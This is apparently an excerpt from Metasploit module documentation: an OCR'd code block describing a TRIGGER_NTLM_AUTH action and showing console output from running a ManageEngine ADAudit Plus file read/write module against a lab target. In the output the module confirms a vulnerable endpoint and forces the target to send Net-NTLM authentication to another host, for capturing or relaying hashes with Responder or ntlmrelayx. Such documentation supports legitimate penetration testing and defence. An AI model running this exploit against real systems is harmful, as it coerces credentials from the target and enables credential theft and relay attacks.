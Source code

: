 ```
   TRIGGER_NTLM_AUTH  Trigger Net-NTLM authentication from the target (for hash capture/relaying via Responder/impacket-ntlmrelayx etc)


msf6 auxiliary(admin/http/manageengine_adaudit_plus_file_read_write) > run
[*] Running module against 192.168.91.250

[*] Running automatic check ("set AutoCheck false" to disable)
[+] The target appears to be vulnerable. The vulnerable endpoint /api/agent/tabs/agentGPOWatcherData is available and responds with HTTP/200
[*] Triggering Net-NTLM authentication from the target to http://192.168.91.195
[*] Auxiliary module execution completed
```
